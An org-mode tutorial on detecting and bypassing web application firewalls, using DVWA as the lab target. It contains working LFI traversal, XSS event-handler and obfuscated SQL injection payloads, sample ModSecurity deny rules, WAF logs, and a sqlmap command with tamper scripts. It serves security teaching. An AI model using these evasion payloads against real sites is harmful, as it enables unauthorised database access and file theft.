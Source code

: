 #+title: Waf Bypass Techniques
#+author: gabriel

* intro
WAFs are security tools that protect web applications from various cyber-attacks. Positioned between the application and the internet, WAFs monitor and filter incoming and outgoing HTTP/HTTPS traffic.

- Traffic Inspection: A WAF captures and inspects all incoming requests to the web application. During this inspection, the content, headers, URL, and other parameters of the request are checked.
- Rule/Policy Application: The WAF applies predefined rules or policies to the incoming request. These rules are designed to protect against common web attacks like SQL injection, XSS, and CSRF.
- Blocking Malicious Traffic: If the incoming request does not comply with the WAF's rules or is deemed potentially harmful, the WAF blocks the request, preventing it from reaching the web application.
- Forwarding Legitimate Traffic: If the incoming request complies with the WAF's rules and is considered safe, the WAF forwards the request to the web application.

* detection techniques
We can trigger WAFs with "fake" attacks to observe their responses. These methods include:

- Creating a Normal GET Request: Send a normal GET request from a browser and record the response headers (especially cookies). This helps identify any custom cookies created by the WAF.

- Sending Requests from the Command Line: Use a tool like cURL to send a request without a user-agent. Observe how the WAF responds to requests without a user-agent.

- Sending GET Requests to Random Open Ports: Send GET requests to random open ports to obtain banners that might reveal the WAF's identity.

- Injecting Malicious Payloads on Login Pages: Inject easily detectable malicious payloads (e.g., " or 1 = 1 --") on login pages and observe the WAF's response.

- Adding Malicious Payloads to Search Bars and Forms: Add noisy malicious payloads like <script>alert()</script> to search bars, contact forms, and other input fields.

- Appending a Fake File to the URL: Add a file path like ../../../etc/passwd as a random parameter to the URL and observe the WAF's response.

- Appending Keywords to the URL: Add keywords like ' OR SLEEP(5) OR ' as a random parameter to the URL and observe the WAF's response.

- Sending Requests with Old Protocols: Send GET requests with old protocols like HTTP/0.9. (HTTP/0.9 does not support POST requests.)

- Monitoring Changes in the Server Header: Some WAFs change the Server header based on different types of interactions. Observe these changes.

* WAFW00F
WAFW00F is a command-line tool used to detect the presence of a Web Application Firewall (WAF) in front of a web application.

 It is capable of identifying a wide variety of WAFs and is free and open-source.

WAFW00F sends a series of requests to the web server and analyzes the responses to determine the presence and type of WAF.

** operating principle
*Passive Detection* WAFW00F sends normal requests to the web server and inspects the response headers (especially the server header and cookies). Specific values in these headers can indicate the presence of a WAF.

*Active Detection* WAFW00F sends requests containing known attack patterns to the web server and observes how the WAF responds. Since the WAF tries to block or modify malicious requests, these responses can help identify the presence and type of WAF.

* bypassing techniques
While there are many techniques, we will focus primarily on the most commonly used ones. When attempting to bypass WAFs, we encounter two main methods:

- Manual bypassing
- Tool-based bypassing

*manual* ->
  These techniques generally aim to exploit the weaknesses or misconfigurations of the WAF to deliver malicious traffic to the web application.

   Unlike automated tools, manual bypassing involves the attacker analyzing the WAF and trying specific attack techniques to bypass it.

*regex analysis* ->
Understanding and bypassing regex rules is considered one of the most effective methods to circumvent WAFs.

WAFs often use regular expressions (regex) to detect malicious traffic while protecting web applications.
   #+begin_src python
SecRule ARGS|REQUEST_BODY "@rx (select|union|from|where|having|order\s+by|group\s+by)" \
  "id:1000, phase:2, deny,status:403, msg:'Potential SQL Injection Attack'"

SecRule ARGS|REQUEST_BODY "@rx \b(information_schema|sysdatabases|pg_sleep|benchmark|sleep\(\d+\)|0x[0-9a-fA-F]+)" \
  "id:1001, phase:2, deny,status:403, msg:'Potential SQL Injection (Database Metadata/Sleep Functions)'"

SecRule ARGS|REQUEST_BODY "@rx ;|--|\/\*" \
  "id:1002, phase:2, deny,status:403, msg:'Potential SQL Injection (Multiple Statements/Comments)'"

SecRule ARGS|REQUEST_BODY "@rx \b(and|or|not|\|\||&&|xor)\b" \
  "id:1003, phase:2, block, msg:'Potential SQL Injection (Boolean Operators)'"
   #+end_src

** obfuscation and encoding
Obfuscation and encoding camouflage or alter malicious payloads, making it difficult for WAFs to detect them.

 These techniques complicate WAF's efforts to detect malicious traffic and allow attackers to access the web application. Here are some commonly used obfuscation/encoding techniques:

 *case switching* ->
 Modify the case of letters in malicious payloads to deceive WAF's string matching algorithms. For example, use "SELECT" as "SeLeCt" or "sElEcT".

 *url encoding* ->
 Represent characters in malicious payloads using percent (%) signs and hexadecimal codes to make it harder for the WAF to recognize harmful characters. For instance, a space character is encoded as "%20".

 *unicode normalization* ->
 Use different Unicode representations of the same character. For example, the letter "A" can be coded as both U+0041 and U+FF21. The WAF may not detect all variations.

 *HTML encoding* ->
 Represent malicious characters as HTML entities. For example, "<" is encoded as "<". This can be used to bypass WAFs in XSS attacks.

 *compound encoding* ->
Combine different encoding techniques (e.g., URL encoding, HTML encoding) to complicate detection by the WAF. For instance, in a SQL injection attack, some parts of the SQL code can be hidden using URL encoding, and other parts using hexadecimal encoding.

*comments* ->
Inject comments (/* */ or --) into malicious payloads to prevent the WAF from recognizing them as a single expression

*double encoding* ->
Encode malicious payloads twice (e.g., first URL encoding, then base64 encoding) to make it harder for the WAF to detect the payload after initial decoding.

*wildcard characters* ->
Use wildcard characters (*, ?, .) in malicious payloads to bypass pattern matching algorithms of the WAF.

** google dorking
While creativity is key in manual bypassing, you can also draw inspiration from the ideas of others who have been creative.

Various WAFs have many known bypass methods, which can be easily found with the help of Google dorks.
: +WAF_NAME waf bypass

To search for specific bypass types
: "WAF_NAME" +<bypass type> (bypass|exploit)

To search in Exploit DB
: site:exploit-db.com +WAF_NAME bypass

* local file inclusion (LFI)
LFI is a type of web attack that allows an attacker to access, read, or execute files on the server by exploiting a vulnerability in the web application.

An LFI attack leverages this file inclusion mechanism to trick the web application into including unwanted or malicious files.  This can allow the attacker to access sensitive files on the server, modify the web application's code, or execute malicious code on the server.

*accessing sensitive files* ->
An attacker can access system files like /etc/passwd to obtain sensitive information such as usernames and password hashes.

*executing malicious code* ->
An attacker can create a malicious PHP script on the server and trick the web application into running it, potentially gaining full control over the server.

For example, the source code of DVWA (Damn Vulnerable Web Application) for demonstrating LFI might be as follows:
#+begin_src php
<?php

define( 'DVWA_WEB_PAGE_TO_ROOT', '../../' );
require_once DVWA_WEB_PAGE_TO_ROOT . 'dvwa/includes/dvwaPage.inc.php';

dvwaPageStartup( array( 'authenticated' ) );

$page = dvwaPageNewGrab();
$page[ 'title' ]   = 'Vulnerability: File Inclusion' . $page[ 'title_separator' ].$page[ 'title' ];
$page[ 'page_id' ] = 'fi';
$page[ 'help_button' ]   = 'fi';
$page[ 'source_button' ] = 'fi';

dvwaDatabaseConnect();

$vulnerabilityFile = '';
switch( dvwaSecurityLevelGet() ) {
        case 'low':
                $vulnerabilityFile = 'low.php';
                break;
        case 'medium':
                $vulnerabilityFile = 'medium.php';
                break;
        case 'high':
                $vulnerabilityFile = 'high.php';
                break;
        default:
                $vulnerabilityFile = 'impossible.php';
                break;
}

require_once DVWA_WEB_PAGE_TO_ROOT . "vulnerabilities/fi/source/{$vulnerabilityFile}";

// if( count( $_GET ) )
if( isset( $file ) )
        include( $file );
else {
        header( 'Location:?page=include.php' );
        exit;
}

dvwaHtmlEcho( $page );

?>
#+end_src

The low security level code in low.php may look like:
#+begin_src php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
#+end_src

For example, without any WAF, the following payload would work without issues:
: ?page=../../../../../../etc/passwd

However, a WAF can easily detect this payload as shown in the log:
#+begin_src python
--023cda21-A--
[20/Jun/2024:08:30:07.344460 +0000] ZnPoj6IdlbwW3kre-lJF8AAAAAI ATTACKER_IP 57980 VICTIM_IP 80
--023cda21-B--
GET /DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd HTTP/1.1
Host: VICTIM_IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: security=low; PHPSESSID=mkir9lhmrjcnhd7fvbfkjvrtgr
Upgrade-Insecure-Requests: 1

--023cda21-F--
#+end_src

** bypass
Let's say we are trying to access a sensitive file under the /opt directory, using the following requests, we find that access is blocked:
#+begin_src python
?page=/opt/sensitive_file
?page=../../../../../../opt/sensitive_file
#+end_src

In this scenario, we need to try different combinations to bypass the WAF's filters.

 For instance, substituting the / character with \ might help, but in many cases, encoding the URL can effectively bypass the filter. By URL encoding the path, we can bypass the WAF filter:
 : ?page=%2Fopt%2Fsensitive%5Ffile

* cross-site scripting (XSS)
XSS is an attack that exploits a security vulnerability in web applications, allowing attackers to execute malicious code in another user's browser.

This code is often in the form of JavaScript and can be used for various purposes such as stealing session cookies, altering the appearance of the website, or downloading malware onto the user's computer.

- Reflected XSS: The attacker sends malicious code to the web application via a URL or form data. The application reflects this code back to the user's browser without proper filtering or sanitization, and the code is executed in the user's browser.
- Stored XSS: The attacker permanently places malicious code into the web application's database or another storage area. This code is included in pages viewed by other users and is executed in those users' browsers.
- DOM Based XSS: The attacker injects malicious code into the web page's DOM (Document Object Model) through client-side JavaScript code. This code is triggered during user interaction or page load and is executed in the user's browser.

*dvwa xss code* ->
#+begin_src php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
        // Feedback for end user
        $html .= '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
#+end_src

If we want to use a function like onmouseover without WAF, there is no problem:
: <a onmouseover=alert(document.cookie)>xss link</a>

** bypass
Since the goal here is to bypass JavaScript, we can discover numerous methods. However, for WAFs filtering onxxx, the most effective bypass techniques are as follows:
#+begin_src javascript
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>
<img src='1' onerror\x00=alert(0) />
<img src='1' onerror\x0b=alert(0) />
<img src='1' onerror/=alert(0) />
...
#+end_src

*exampl* ->
: <object onafterscriptexecute=confirm(0)>

* SQLi
SQL injection is a type of attack used by malicious individuals to gain unauthorized access to a web application's database, modify the data, or delete it.

In this attack, the attacker inserts malicious code into the SQL queries used by the web application to communicate with the database.

Web applications create SQL queries to fetch information from the database using the data entered by users (e.g., username, password, search term).

*dvwa sqli code* ->
#+begin_src php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
        // Get input
        $id = $_REQUEST[ 'id' ];

        switch ($_DVWA['SQLI_DB']) {
                case MYSQL:
                        // Check database
                        $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
                        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

                        // Get results
                        while( $row = mysqli_fetch_assoc( $result ) ) {
                                // Get values
                                $first = $row["first_name"];
                                $last  = $row["last_name"];

                                // Feedback for end user
                                $html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                        }

                        mysqli_close($GLOBALS["___mysqli_ston"]);
                        break;
                case SQLITE:
                        global $sqlite_db_connection;

                        #$sqlite_db_connection = new SQLite3($_DVWA['SQLITE_DB']);
                        #$sqlite_db_connection->enableExceptions(true);

                        $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
                        #print $query;
                        try {
                                $results = $sqlite_db_connection->query($query);
                        } catch (Exception $e) {
                                echo 'Caught exception: ' . $e->getMessage();
                                exit();
                        }

                        if ($results) {
                                while ($row = $results->fetchArray()) {
                                        // Get values
                                        $first = $row["first_name"];
                                        $last  = $row["last_name"];

                                        // Feedback for end user
                                        $html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                                }
                        } else {
                                echo "Error in fetch ".$sqlite_db->lastErrorMsg();
                        }
                        break;
        }
}

?>
#+end_src

A direct payload won't work here as the WAF will catch it:
: ' or 1=1 -- -

*waff log* ->
#+begin_src python
--95d30709-A--
[20/Jun/2024:08:26:30.170636 +0000] ZnPntg9N6NOgQglLgIM6twAAAAA ATTACKER_IP 42428 VICTIM_IP 80
--95d30709-B--
GET /DVWA/vulnerabilities/sqli/?id=%27+or+1%3D1+--+-&Submit=Submit HTTP/1.1
Host: VICTIM_IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://VICTIM_IP/DVWA/vulnerabilities/sqli/
Cookie: security=low; PHPSESSID=mkir9lhmrjcnhd7fvbfkjvrtgr
Upgrade-Insecure-Requests: 1

--95d30709-F--
#+end_src

** bypass
Generally, although based on trial and error, there are several methods we can use to avoid blocked characters or bypass space characters

For example, by replacing space characters with /**/, we can prevent the payload from being matched by regex. Therefore, our initial payload:
: ' or/**/1=1/**/-- -

There are many payloads we can try. The idea is to prevent the regex from matching them.
: 1' and 1=1 union select database(),user()#

Any of the following can be used to modify the union select part of the payload:
#+begin_src sh
/*!50000%55nIoN*/ /*!50000%53eLeCt*/
%55nion(%53elect 1,2,3)-- -
+union+distinct+select+
+union+distinctROW+select+
/**//*!12345UNION SELECT*//**/
/**//*!50000UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
union /*!50000%53elect*/
+#uNiOn+#sEleCt
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/*!%55NiOn*/ /*!%53eLEct*/
/*!u%6eion*/ /*!se%6cect*/
+un/**/ion+se/**/lect
uni%0bon+se%0blect
...
#+end_src

* bypassing with tools
Although we've been testing manually throughout the training, there are automated tools available to test all these WAF payloads.

** sqlmap
SQLMap is an open-source penetration testing tool used to automatically detect and exploit SQL injection vulnerabilities.

It is written in Python and supports many database management systems (DBMS).

- Automated Scanning: SQLMap can automatically scan a web application to detect SQL injection vulnerabilities.
- Extracting Database Information: Once a vulnerability is identified, SQLMap can extract the database type, version, usernames, tables, columns, and even data.
- Operating on Database: SQLMap can perform read, write, update, and delete operations on the database.
- File System Access: In some cases, SQLMap can access the server's file system, allowing it to read or write files.
- Command Execution: SQLMap, in some cases, can execute OS commands on the server.
- Wide DBMS Support: It supports many popular DBMS such as MySQL, PostgreSQL, SQLite, Microsoft SQL Server, Oracle, IBM DB2.
- Ease of Use: It has an easy-to-use interface suitable for both beginners and experienced users.

It is important to play with parameters like --level, --risk, --random-agent, and --delay to find the best scanning method. Otherwise, all requests might be caught by the WAF.
#+begin_src sh
sqlmap -u 'http://VICTIM_IP/DVWA/vulnerabilities/sqli/?id=1' --cookie="security=low; PHPSESSID=fjiu1r8e909m14pqic7a07d3dn" --random-agent --delay 0.1 --tamper=modsecurityzeroversioned,space2hash
#+end_src

